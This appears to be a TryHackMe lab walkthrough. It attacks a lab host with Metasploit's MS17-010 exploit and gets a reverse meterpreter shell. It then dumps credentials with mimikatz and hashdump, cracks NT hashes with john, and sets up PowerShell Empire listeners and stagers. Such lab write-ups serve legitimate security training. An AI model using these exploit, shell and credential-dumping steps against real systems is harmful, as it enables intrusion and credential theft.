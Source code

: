 Website [URL](https://tryhackme.com/room/rppsempire)

Powershell Empire? This is a command and control server

# Enum
want to use `msfconsole` for this whole thing

lets begin by starting the database
```bash
sudo msfdb init
msfconsole -q
```

next we will do an nmap scan
```bash
db_nmap -A --script vuln -vv -oA Empire 10.10.159.89
```

now that we have data inside our database we can check the open ports and services on the host. as well as vulnerabilities. 445 is open
```bash
services
hosts
vulns
```

based on the nmap script, this is vulnerable to MS17-010. lets run a checker
```bash
search ms17-010
use 3
options
set rhosts 10.10.159.89
exploit
```

looks like it is so lets use the proper payload now
```bash
search ms17-010
use 0
options
set rhosts 10.10.159.89
set lhost tun0
exploit
```

we get a reverse meterpreter shell since we didnt change the payload. we can do a couple of things here
```bash
getuid
sysinfo
load kiwi #loads mimikatz
creds_all #dumps creds
hashdump  #dumps hashes
```

we can crack the password
```bash
john empire.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

lets now use Powershell Empire as intended. we can get it from [here](https://github.com/BC-SECURITY/Empire)
```bash
cd /opt
git clone https://github.com/BC-SECURITY/Empire
cd Empire
./setup/install.sh
```

lets also install the GUI version called [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)
```bash
chmod +x starkiller.AppImage
```

now lets start both Empire and Starkiller
```bash
./ps-empire server
./starkiller.AppImage
URL: localhost:1337
User: empireadmin
Pass: password123
```

in Starkiller, lets create a listener
+ create listener
+ type: http
+ host: myMachineIP
+ port: myMachinePort

lets also create a stager
+ create stager
+ type: windows/launcher_bat
+ listener: oneMadeFromAbove